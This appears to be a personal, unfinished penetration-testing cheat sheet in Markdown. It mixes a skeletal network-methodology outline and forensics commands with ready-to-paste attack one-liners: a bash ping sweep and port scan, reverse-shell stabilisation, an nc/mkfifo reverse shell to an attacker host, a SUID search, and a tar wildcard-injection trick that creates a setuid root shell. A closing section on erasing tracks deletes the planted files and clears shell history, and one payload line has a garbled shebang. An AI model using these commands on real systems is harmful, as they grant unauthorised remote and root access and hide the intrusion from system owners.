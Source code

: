 [SEVERELY INCOMPLETE]

# [External Network Methodology]
## OSINT
### Website Enumeration
- Injection
- Broken authentication and session management
- XSS
- IDOR
- Security misconfigurations
- Data exposures
- CSRF
### Web vulnerability scanning
- Nessus
# [Internal Network Methodology]
## 

# Digital Forensics
Check file type and metadata:
`file [FILE]` 
`exiftool [FILE]`

![image](https://github.com/user-attachments/assets/56e7b1ca-4955-4715-bdbb-9545720db1fb)

## Ping Sweep && Port Scan One-Liners (esp if nmap doesn't exist)
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

## Reverse Shell Stabilization
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
reset
```
## SUID search
```
find / -type f -perm -u=s 2>/dev/null
```
## Reverse Shell alternative (assuming nc exists)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP ATTACKER-PORT >/tmp/f
```

## Wildcard Injection - exploitation
```
printf '#/!bin/bash\nchmod +s /bin/bash' > shell.sh    OR
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/shell.sh    

echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
## Wildcard Injection - erasing tracks
```
rm -- --checkpoint*
rm -- "--checkpoint* "
rm shell.sh

[SESSION ONLY] history -c 
clear ~/.bash_history
```
